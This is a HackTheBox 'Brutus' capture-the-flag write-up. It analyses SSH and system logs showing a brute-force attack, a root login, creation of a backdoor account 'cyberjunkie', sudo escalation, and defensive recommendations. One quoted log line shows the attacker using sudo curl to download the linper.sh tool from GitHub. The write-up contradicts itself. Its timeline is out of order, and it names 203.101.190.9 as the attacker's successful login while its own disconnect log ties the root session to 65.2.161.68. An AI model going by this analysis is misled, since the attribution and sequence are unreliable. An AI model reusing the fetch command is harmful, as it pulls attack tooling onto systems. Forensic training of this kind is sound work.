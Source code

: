 ```yaml
---
title: "Brutus"
description: "Log analysis investigation of SSH brute force attacks, successful authentication bypass, privilege escalation, and persistence mechanisms through backdoor account creation."
date: "2025-09-08"
difficulty: "Medium"
tags:
  - SSH Brute Force
  - Log Analysis
  - Privilege Escalation
  - Account Creation
  - Persistence Techniques
  - Linux Security
  - Authentication Bypass
platform: "HackTheBox"
tools:
  - SSH Logs Analysis
  - Linux System Logs
  - Authentication Monitoring
  - Session Tracking
references:
  - https://attack.mitre.org/techniques/T1136/001/
  - https://attack.mitre.org/techniques/T1110/
  - https://attack.mitre.org/techniques/T1078/
slug: hackthebox-brutus-ssh-brute-force-analysis
---
```


# HackTheBox - Brutus CTF Writeup

## Overview

This writeup covers the analysis of SSH authentication logs and system activity logs in the Brutus challenge. The investigation focuses on identifying brute force attacks, successful authentication attempts, privilege escalation, and persistence techniques employed by an attacker.

## Challenge Analysis

### Initial Attack Vector - SSH Brute Force Attack

The investigation begins with analyzing authentication logs that reveal a clear pattern of brute force attacks against the SSH service. Multiple authentication failures were observed from the IP address `65.2.161.68`:

```
Mar 6 06:31:31 ip-172-31-35-28 sshd[2337]: pam_unix(sshd:auth): check pass; user unknown
Mar 6 06:31:31 ip-172-31-35-28 sshd[2337]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68
Mar 6 06:31:31 ip-172-31-35-28 sshd[2335]: pam_unix(sshd:auth): check pass; user unknown
Mar 6 06:31:31 ip-172-31-35-28 sshd[2335]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68
```

The logs show repeated authentication failures and attempts against various usernames including `admin` and `backup`:

```
Mar 6 06:31:31 ip-172-31-35-28 sshd[2334]: Invalid user admin from 65.2.161.68 port 46454
Mar 6 06:31:31 ip-172-31-35-28 sshd[2329]: Invalid user admin from 65.2.161.68 port 46414
Mar 6 06:31:31 ip-172-31-35-28 sshd[2338]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68 user=backup
```

**Analysis:** The authentication failure patterns clearly indicate a brute force attack originating from IP address `65.2.161.68`, targeting multiple user accounts in an attempt to gain unauthorized access.

### Successful Authentication and Initial Access

Despite the failed brute force attempts from `65.2.161.68`, the attacker successfully gained access to the system using a different IP address:

```
Mar 6 06:19:52 ip-172-31-35-28 sshd[1465]: AuthorizedKeysCommand /usr/share/ec2-instance-connect/eic_run_authorized_keys root SHA256:4vycLsDMzI+hyb9OP3wd18zIpyTqJmRq/QIZaLNrg8A failed, status 22
Mar 6 06:19:54 ip-172-31-35-28 sshd[1465]: Accepted password for root from 203.101.190.9 port 42825 ssh2
```

**Key Finding:** The attacker successfully accessed the root account from IP address `203.101.190.9` using password authentication, indicating that the brute force attack may have been a diversionary tactic or the attacker possessed valid credentials for the root account.

### Session Tracking and System Access

Following successful authentication, the system assigned session tracking information:

```
Mar 6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

**Answer:** The session number assigned to the root login was **37**.

### Persistence Mechanism - Account Creation

As part of their persistence strategy, the attacker created a new user account to maintain long-term access to the compromised system:

```
Mar 6 06:37:34 ip-172-31-35-28 systemd-logind[411]: New session 49 of user cyberjunkie.
Mar 6 06:37:34 ip-172-31-35-28 systemd: pam_unix(systemd-user:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
```

**Analysis:** The attacker created a new user account named `cyberjunkie` as part of their persistence strategy on the server. This technique aligns with MITRE ATT&CK framework subtechnique **T1136.001** (Create Account: Local Account).

### Privilege Escalation

The attacker elevated the privileges of the newly created account by adding it to administrative groups:

```
Mar 6 06:35:01 ip-172-31-35-28 CRON[2615]: pam_unix(cron:session): session closed for user confluence
Mar 6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar 6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
```

**Key Finding:** The attacker gave the new user account `cyberjunkie` higher privileges by adding it to both the `sudo` group and the shadow `sudo` group, effectively granting administrative access.

### Tool Download and Lateral Movement Preparation

Using the backdoor account with elevated privileges, the attacker downloaded additional tools:

```
Mar 6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

**Analysis:** The attacker logged in with their backdoor account `cyberjunkie` and used sudo privileges to download a script from GitHub (`linper.sh` from the montysecurity repository). This tool likely serves for further system enumeration or lateral movement within the network.

### Session Termination and Cleanup

After completing the initial compromise and establishing persistence, the attacker disconnected from the system:

```
Mar 6 06:37:24 ip-172-31-35-28 sshd[2491]: Received disconnect from 65.2.161.68 port 53184:11: disconnected by user
Mar 6 06:37:24 ip-172-31-35-28 sshd[2491]: Disconnected from user root 65.2.161.68 port 53184
Mar 6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
Mar 6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Session 37 logged out. Waiting for processes to exit.
Mar 6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

**Final Step:** The attacker then disconnected from the system, completing the initial compromise phase while maintaining persistent access through the created backdoor account.

## Attack Timeline Summary

1. **06:31:31** - Brute force attack attempts from `65.2.161.68`
2. **06:19:54** - Successful root login from `203.101.190.9`
3. **06:32:44** - Session 37 established for root user
4. **06:35:15** - Creation and privilege escalation of `cyberjunkie` account
5. **06:37:34** - New session 49 for `cyberjunkie` user
6. **06:39:38** - Tool download using elevated privileges
7. **06:37:24** - Attacker disconnection and session cleanup

## MITRE ATT&CK Techniques Identified

- **T1136.001** - Create Account: Local Account (cyberjunkie user creation)
- **T1110** - Brute Force (SSH authentication attempts)
- **T1078** - Valid Accounts (successful root authentication)
- **T1548.003** - Abuse Elevation Control Mechanism: Sudo and Sudo Caching

## Key Findings and Indicators

1. **Primary Attack Vector:** SSH brute force followed by successful authentication
2. **Compromised Session:** Root session number 37
3. **Persistence Mechanism:** Creation of `cyberjunkie` backdoor account
4. **Privilege Escalation:** Addition to sudo groups for administrative access
5. **Tool Acquisition:** Download of `linper.sh` reconnaissance script
6. **Attack IPs:** `65.2.161.68` (brute force) and `203.101.190.9` (successful login)

## Defensive Recommendations

1. Implement fail2ban or similar intrusion prevention systems
2. Enforce strong password policies and multi-factor authentication
3. Monitor and alert on rapid account creation activities
4. Implement privilege escalation monitoring
5. Regularly audit user accounts and group memberships
6. Monitor outbound connections for tool downloads

This analysis demonstrates a sophisticated multi-stage attack involving initial access, persistence establishment, and preparation for further network compromise activities.
